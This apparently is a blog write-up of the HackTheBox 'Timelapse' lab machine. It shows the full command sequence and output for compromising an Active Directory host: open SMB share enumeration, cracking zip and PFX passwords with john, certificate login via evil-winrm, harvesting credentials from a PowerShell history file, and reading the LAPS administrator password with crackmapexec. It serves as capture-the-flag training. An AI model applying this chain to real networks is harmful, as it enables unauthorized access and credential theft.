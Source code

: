 ```yaml
---
layout: post
title: HackTheBox - Timelapse
category: HackTheBox
tags: machines smb laps brute-force windows
date: 2022-08-25 17:18 +0300
---
```


![Machine logo](/assets/hackthebox/timelapse/Timelapse.png){:height="414px" width="615px"}

## Configuration

It is very useful to append `/etc/hosts/` with ip address of the machine. It is useful to get subdomains and to not memorize the address every time.
```zsh
$ echo '10.10.11.152 timelapse.htb' | sudo tee -a /etc/hosts 
```

## Reconnaissance

```zsh
$ nmap -p- timelapse.htb -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-29 11:10 UTC
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.056s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
62020/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 111.03 seconds
```

It looks like an `Active Directory` domain.

## Enumeration

Let's start with smb enumeration. It is also can be done by simple `smbclient`.
```zsh
$ crackmapexec smb timelapse.htb -u 'a' -p '' --shares
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         timelapse.htb   445    DC01             [+] timelapse.htb\a: 
SMB         timelapse.htb   445    DC01             [+] Enumerated shares
SMB         timelapse.htb   445    DC01             Share           Permissions     Remark
SMB         timelapse.htb   445    DC01             -----           -----------     ------
SMB         timelapse.htb   445    DC01             ADMIN$                          Remote Admin
SMB         timelapse.htb   445    DC01             C$                              Default share
SMB         timelapse.htb   445    DC01             IPC$            READ            Remote IPC
SMB         timelapse.htb   445    DC01             NETLOGON                        Logon server share 
SMB         timelapse.htb   445    DC01             Shares          READ            
SMB         timelapse.htb   445    DC01             SYSVOL                          Logon server share
```

We can read 2 shares without login, now we connect with `smbclient` and search.
```zsh
$ smbclient -N \\\\timelapse.htb\\Shares\\
smb: \> dir
  .                                   D        0  Mon Oct 25 15:39:15 2021
  ..                                  D        0  Mon Oct 25 15:39:15 2021
  Dev                                 D        0  Mon Oct 25 19:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 15:48:42 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \> cd Dev
smb: \Dev\> dir
  .                                   D        0  Mon Oct 25 19:40:06 2021
  ..                                  D        0  Mon Oct 25 19:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 15:46:42 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \Dev\> get winrm_backup.zip
smb: \Dev\> cd ..
smb: \> cd HelpDesk
smb: \HelpDesk\> dir
  .                                   D        0  Mon Oct 25 15:48:42 2021
  ..                                  D        0  Mon Oct 25 15:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 14:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 14:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 14:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 14:57:44 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \HelpDesk\> mget *
```

winrm_backup.zip archive has a password, we will try to brute it with `john`.
```zsh
$ zip2john winrm_backup.zip > hash
$ john --wordlist=rockyou.txt hash
-- EDITED --    (winrm_backup.zip/legacyy_dev_auth.pfx)
```

legacyy_dev_auth.pfx is a `PKCS#12` file format, contains the SSL certificate (public keys) and the corresponding private keys. But it requires password to extract. Let's convert it to hash and brute it again!
```zsh
$ pfx2john legacyy_dev_auth.pfx > hash
$ john --wordlist=rockyou.txt hash
-- EDITED --       (legacyy_dev_auth.pfx)
```

Now we got the password and able to extract a certificate and a private key. We use `openssl` library to do that.
```zsh
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key
$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt
```

## user.txt

Now we have a certificate and a private key. We can use them to auth into the machine with `evil-winrm`.
```zsh
$ evil-winrm -i timelapse.htb -S -k private.key -c certificate.crt
*Evil-WinRM* PS C:\Users\legacyy\Documents>
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..
*Evil-WinRM* PS C:\Users\legacyy> type Desktop\user.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX # Edited
```

## root.txt

Here we have to search. By searching in `Program Files` folder, we have to note that `LAPS` in installed and enabled. We can upload and execute `winPEAS`. It will show us a command history file.

![PowerShell history file](/assets/hackthebox/timelapse/history_file.png)

Let's open it!

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Downloads> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString '-- EDITED --' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We can see the credentials here: `svc_deploy:-- EDITED --`.

svc_deploy user is a member of `LAPS_Readers` group, which can extract `Local Administrator` password. We are using `crackmapexec` to do that.

```zsh
$ crackmapexec smb timelapse.htb -u 'svc_deploy' -p '-- EDITED --' --laps  
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         timelapse.htb   445    DC01             [-] DC01\administrator:-- EDITED -- STATUS_LOGON_FAILURE
```

Then, we got it: `administrator:-- EDITED --`. It's time to log in and get the flag!

```zsh
$ evil-winrm -i timelapse.htb -u 'administrator' -p '-- EDITED --' -S
*Evil-WinRM* PS C:\Users\Administrator\Documents> gci -Path C:\ -Recurse -Include 'root.txt'
    Directory: C:\Users\TRX\Desktop
-ar---         7/1/2022   9:25 AM             34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../../TRX/Desktop/root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX # Edited
```

It was in unusual location, so we had to search for it with `Get-ChildItem`.

## Conclusion

I've really enjoyed the box. It was interesting to learn some new things.

Thank you for reading, I hope it was useful for you ❤️
